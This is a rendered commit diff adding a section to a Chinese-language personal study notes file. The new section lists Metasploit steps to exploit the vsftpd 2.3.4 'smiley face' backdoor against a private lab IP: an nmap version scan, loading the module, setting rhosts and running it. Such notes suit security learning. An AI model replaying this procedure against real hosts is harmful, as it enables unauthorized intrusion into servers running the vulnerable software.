

Before and after one commit to swdxiaoxiao/witer_markdown, a Markdown page: 笔记.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
修改文件: 笔记.md

```diff
--- a/笔记.md
+++ b/笔记.md
@@ -682,3 +682,19 @@ IPv6由128个bit组成
 
 从工具返回msfconsole
 >back
+
+### 笑脸漏洞
+扫描软件版本(==vsftpd 2.3.4 #B78D12==)
+>nmap -sV 192.168.10.143
+
+进入msfconsole
+>msfconsole -q
+
+搜索并选择工具
+>search vsftpd
+>use 0
+>==//设置工具参数 #929292==
+>>==//设置攻击目标 #929292==
+>>set rhosts 192.168.10.143
+>//运行
+>run
```
